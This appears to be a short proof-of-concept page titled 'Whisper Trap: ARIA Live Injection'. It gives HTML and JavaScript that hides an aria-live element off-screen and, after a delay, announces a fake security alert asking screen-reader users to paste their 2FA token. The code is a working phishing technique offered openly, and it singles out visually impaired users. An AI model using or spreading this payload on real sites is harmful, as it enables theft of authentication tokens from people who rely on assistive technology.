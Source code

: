 
```markdown
# 👻 Whisper Trap: ARIA Live Injection

**Description:**  
This proof-of-concept uses `aria-live="polite"` in an invisible `<div>` to deliver a screen-reader-only phishing prompt.

---

### 🔍 Code Snippet:

```html
<div id="trap" aria-live="polite" style="position:absolute; left:-9999px;">
  <!-- updated dynamically -->
</div>

<script>
  setTimeout(() => {
    document.getElementById("trap").textContent =
      "Security alert. Please paste your 2FA token to continue.";
  }, 3000);
</script>
